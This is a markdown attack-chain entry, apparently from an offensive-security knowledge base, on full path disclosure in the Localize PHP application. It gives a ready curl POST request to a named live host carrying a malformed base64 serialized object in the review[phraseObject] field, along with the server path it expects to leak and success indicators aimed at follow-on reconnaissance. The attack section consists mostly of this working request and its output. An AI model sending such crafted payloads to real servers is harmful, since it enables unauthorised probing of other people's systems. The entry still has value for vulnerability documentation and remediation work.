

---
tags:
  - information-disclosure
  - php
  - unserialize
  - path-disclosure
type: attack_chain
tools: []
tactics:
  - '[[Discovery]]'
verified: false
platforms:
  - Web
  - PHP
submitted: true
complexity: low
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Trigger-PHP-Unserialize-Error-for-Path-Disclosure]]'
step_count: 1
techniques:
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:26:12.067Z'
description: >-
  An attack chain exploiting a PHP unserialize error in the Localize application
  to disclose the full server file path through a malformed serialized object in
  a POST request.
skill_level: beginner
impact_level: medium
id: 6c8985fb-0e7a-4846-be28-84468c0c835f
validated: true
mitre_tactics:
  - '[[Discovery]]'
mitre_techniques:
  - '[[File and Directory Discovery]]'
---
# Full Path Disclosure via PHP Unserialize Error in Localize Application

Multi-stage attack chain demonstrating a complete attack workflow exploiting a PHP unserialize vulnerability in the Localize application to reveal the internal server path.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Beginner |
| Complexity | Low |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl or browser)

### Target Environment

- Web application running PHP
- Access to the review endpoint (e.g., /review/{id}/languages/{lang_id})
- No authentication required for this endpoint in the vulnerable version

### Initial Access Requirements

- Network access to the target web server
- Ability to send POST requests
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Trigger Unserialize Error
procedure: [[procedures/Trigger-PHP-Unserialize-Error-for-Path-Disclosure]]

**Objective**: Submit a malformed serialized PHP object to the review endpoint to cause an unserialize error, disclosing the full server file path.

**Instructions**: Prepare a POST request to the target review endpoint with a specially crafted malformed serialized string in the review[phraseObject] parameter. Use a tool like curl to send the request:

First, construct the malformed payload starting with 'TzoyMToiUGhyYXNlX0FuZHJvaWRfU3RyaW5nIjo2OntzOjg6IgAqAHZhbHVlI' followed by a long string of 'a' characters to force the error at offset 133.

```bash
curl -X POST 'http://www.localize.io/review/3C/languages/5' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'CSRFToken=your_csrf_token&review[editID]=cw3&review[referenceValue]=test&review[phraseObject]=TzoyMToiUGhyYXNlX0FuZHJvaWRfU3RyaW5nIjo2OntzOjg6IgAqAHZhbHVlIaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaajtzOjQ6InRlc3QiO3M6NToiACoAaWQiO2k6MDtzOjEyOiIAKgBwaHJhc2VLZXkiO3M6NzoidGVzdGluZyI7czoxMDoiACoAZ3JvdXBJRCI7aTowO3M6MjQ6IgAqAGVuYWJsZWRGb3VUcmFuc2xhdGlvbiI7YjoxO3M6MTA6IgAqAGlzRW1wdHkiO2I6MDt9&review[phraseKey]=testing&review[phraseSubKey]=0&review[contributorID]=sh&review[newValue]=1&review[action]=approve'
```

**Expected Output**: The server responds with a PHP notice error message containing the full path, such as "/var/www/vhosts/lvps178-77-99-228.dedicated.hosteurope.de/httpdocs_localize/index.php".

**Success Indicators**:
- PHP notice in response revealing file path and line number (e.g., unserialize() error at offset 133 of 192 bytes in index.php line 244)
- Directory structure exposed, aiding further reconnaissance

## Attack Chain Summary

### Key Achievements

1. Successful triggering of unserialize error via POST request
2. Disclosure of internal server path
3. Exposure of directory structure for potential follow-on attacks

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[File and Directory Discovery]]

### MITRE ATT&CK Tactics

- [[Discovery]]

---

*Last updated: 2023-10-01T00:00:00Z*
